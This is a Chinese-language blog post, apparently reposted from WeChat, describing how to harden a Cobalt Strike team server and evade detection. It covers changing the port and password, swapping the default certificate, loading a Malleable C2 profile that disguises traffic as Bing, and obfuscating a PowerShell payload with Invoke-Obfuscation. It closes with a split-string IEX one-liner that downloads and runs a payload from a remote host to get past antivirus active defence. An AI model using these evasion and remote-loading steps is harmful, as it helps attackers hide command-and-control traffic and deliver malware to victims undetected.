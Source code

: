 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Kc-nzt9aU6oFc9_Emkhm3A)

**前言：**

现如今，随着国家的重视，安全已不是曾经拿啊 D、明小子一把梭的时代，渗透环境愈发复杂，渗透与反渗透已变成常态，CS 作为渗透利器，简单的安装使用已不能满足现在的需求，在此，Record 一篇 CS 加固 + 免杀的文章。从五个角度叙述如何对 CS 进行加固 + 免杀，让 CS 满足现在渗透的环境，五个角度分别为端口、密码、证书、流量、免杀。这五个角度满足的需求分别是反渗透、Bypass 流量审计、免杀过杀毒软件。  

**目录：**

0x00 反渗透

0x01Bypass 流量审计

0x02 免杀过杀毒软件

**0x00 反渗透**  

在攻防演练的过程中，听说一些攻击者，被防守方直接拿下 CS 服务器，思路大概是这样，首先被蜜罐或安全设备获取攻击 IP，然后通过默认端口和弱口令拿下 CS 服务器，为了避免这种情况，我们需要对自己的 CS 服务器做反渗透加固，这里主要说两点，端口和密码。  

**端口**

默认 CS 端口为 50050，我们需要对该端口进行修改，可通过 vim teamserver 来修改端口，在如下箭头处进行修改，这里我改为 55555 端口。

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLArJ7ybax9MACwiaFbRkN96GJicU5iaWJ5XMV2YSWdo8c0jVSk1kYK0quA/640?wx_fmt=jpeg)

**密码**

CS 密码禁止使用弱口令，口令应满足一定的复杂度，如使用长度 8 位以上，包含字母、数字、特殊符号组成密码。

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLLcSMJvRWibiam2DSNbKBQIZPT10RXNRrqxpzCqFV0TibFDQQQmY25QnbQ/640?wx_fmt=jpeg)

**0x01Bypass 流量审计**  

说了 CS 的加固，那么也不要忘了 CS 的作用是什么，其为后渗透的工具。因为该款工具所使用的人太多，所以其流量则被各款流量审计所监控，其特征被也被相应记录，而各个厂商或多或少的都采购或自研流量审计，包括但不限于 IPS、IDS、全流量、态势感知等，用于在大数据中匹配攻击行为。流量审计的广泛应用，导致原生 CS 已不适用现有环境，那么便需要做一些修改，修改分两点，证书和流量。  

**证书**

CS 存在默认证书，通过命令可查看，查看命令为

```
keytool -list -v -keystore cobaltstrike.store
```

如下为默认 CS 证书

**![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLtT0c8dIBMaoVKSrzgbCZsbBYnA3yQkncjRMXaBBFQocf9wiafNkibnqQ/640?wx_fmt=jpeg)**

默认 CS 证书如上，存在明显特征，所以在这要用不包含特征的证书去替换，CS 工具包下存在 keytool 工具，其为 JAVA 数据证书管理工具，通过命令可生成证书，生成命令如下

```
keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias baidu.com -dname "CN=US, OU="baidu.com", O="Sofatest", L=Beijing, ST=Cyberspace, C=CN"
```

查看新生成的证书，如下

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLrjm0X4quibibYLUHrDbtGAoItfpFRhC9jIa5fz9G7icmRVBrIWzBauibicQ/640?wx_fmt=jpeg)

**流量**

CS 流量如之前所说，已被相应流量审计软件所监控，所以原 CS 已不适用现有攻防环境，那么是否就没办法了呢？并不是，CS 开发团队早已想到了这一点，其存在配置文件，用来自定义客户端 / 服务端双向通信的流量格式以及软件相应配置，配置文件中的自定义客户端 / 服务端双向通信流量格式就可被我们用来绕过流量审计，如下 http-get、http-post 就是用来自定义数据格式的配置。

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLFibXLRjRaTfc5WZmudBPssaNlLicjE1NILIcPWpgptmBjmneFXWdVEmQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRb34QX52ZTofkAfpB1Sib7rLVicmoyjliawqFW5h5rxTJUAPO7AGiaPEeBxPuHGjgv9nIJR74eDdeOpZA/640?wx_fmt=jpeg)

这里，有兴趣的可自行看看配置如何写，我这边就直接 github 上找了一份用，地址如下：  

```
https://github.com/xx0hcd/Malleable-C2-Profiles/tree/master/normal
```

用了一份伪造 bing 搜索引擎的 C2-Profile  

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRbFaAUibBpc6f1Ma9SicVWX8fLI3BZxnYIEDHZLNPkDkq3MPAxLHGdKcH1ze9Y28gsab3SIp2mn5y8A/640?wx_fmt=jpeg)

C2-Profile 下载后，使用命令如下  

```
查看配置是否可用：
./c2lint /root/cobaltstrike4.0/bing_maps.profile

启动配置
./teamserver 服务器ip cs密码 /root/cobaltstrike4.0/bing_maps.profile
```

CS 服务端加载 C2 配置后，本地运行 http-beacon，wireshark 抓取流量包，查看流量是否如自己设置那样，实验结果的确如配置所示。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRbFaAUibBpc6f1Ma9SicVWX8faplic2yZaK62EER4PWCzHc4iaaLRBtKRFfHEkBjZo8nLickI6FOSVjNYQ/640?wx_fmt=jpeg)

**0x02 免杀过杀毒软件**  

首先，简单聊聊自己对免杀思路的看法，随着时代的变换，攻与防都与时俱进，自己最早接触安全的时候，是灰鸽子、大白鲨，抓鸡拿服务器的时期，在那个时期，免杀的方法基本为加区、加花、加壳、改特征码、改资源、捆绑等，通过这些方法，就可绕过杀软的主被动防御。如今，杀软在升级，免杀方法也在升级，现在的免杀方法更多为分离、白加黑的思路，常规免杀方法为加载器、混淆编码等，有代码能力可自写，无的话网上也有很多现成的方法，拿加载器举例：shellcode_launcher 就可用来免杀杀毒软件，尽管原有特征已被杀软记录，但通过源码免杀改改函数即可绕过杀软继续使用。

其次，聊一聊杀毒软件杀什么，杀毒软件到底是怎么识别某程序为病毒程序呢？用自己的话来说，杀软归根结底，识别的是**程序特征**，特征包含三个方面：文件特征、内存特征、行为特征。

知道了杀软杀什么，那么免杀，其实也就不是特别的难了，免杀，用自己的话来解释，就是**改变程序特征且保持原有功能**。改变程序特征是为了让杀毒软件不把程序识别为恶意，保持原有功能就更好理解了，若程序修改后无法运行，那么即使过了杀毒软件也是一件没有意义的事。

本文章免杀的方法为 Powershell 远程加载 + Payload 混淆，最后 CS 成功上线

复现步骤如下，首先 CS 生成 Powershell 脚本，该脚本，不用说，肯定被杀软标记为恶意，所以要想绕过，我们需要改特征，改特征选用 Invoke-Obfuscation，其为 Powershell 编码器，地址如下：

```
https://github.com/danielbohannon/Invoke-Obfuscation
```

下载后，使用方法为 导入 -> 设置免杀脚本路径 -> encoding 编码 -> 选择编码方式 -> 设置编码后输出文件路径。

```
导入
Import-Module .\Invoke-Obfuscation.psd1; Invoke-Obfuscation

设置
set scriptpath F:\渗透必备\免杀\Invoke-Obfuscation\payload.ps1

编码
encoding

选择编码方式
1-8

设置编码后输出文件路径
out F:\渗透必备\免杀\Invoke-Obfuscation\payload1.ps1
```

这里使用火绒查杀一下编码后的文件，如下图，未发现安全风险。

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRbFaAUibBpc6f1Ma9SicVWX8flib6bHib3CkGZzJNzbQPMcbjqEG9r9TibhOibMyC6S50iafvtmOFwb8lWDQ/640?wx_fmt=jpeg)

文件已免杀，后续就是 Powershell 执行了，这里有两种方法，

一：采用把文件下载到本地，powershell 执行；

二：文件放到服务器，远程 Powershell 执行。

考虑到少交互的原则，第一步还需上传文件到本地，多了一步骤，故选用第二种方案。  

这里把 ps1 传到个人博客做远程加载演示，上传后可访问  

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRbFaAUibBpc6f1Ma9SicVWX8f1GoYWj7WSP2icnic52UROfNaFG0WYdjkj7xCb7nm7YeFMCeRlF2Xib62g/640?wx_fmt=jpeg)

下一步，即执行 powershell 命令，可 powershell 行为特征也被火绒记录在册，可通过如下方式，绕过火绒该防护。

```
powershell.exe "$a1='IEX ((new-object net.webclient).downl';$a2='oadstring(''http://www.bywalks.com/payload1.ps1''))';$a3="$a1,$a2";IEX(-join $a3)"
```

可绕过火绒主动防御  

![](https://mmbiz.qpic.cn/mmbiz_jpg/ib3VCxzGNvRbFaAUibBpc6f1Ma9SicVWX8fJiagkaxe3bqLdXxGlqh69MtFqqQU7JtJ50p4XaUd2lWaaxDiaZ4IicwFQ/640?wx_fmt=jpeg)

**参考文章：**

https://paper.seebug.org/1349/

https://cloud.tencent.com/developer/article/1759951

https://www.chabug.org/web/832.html

https://github.com/TideSec/BypassAntiVirus/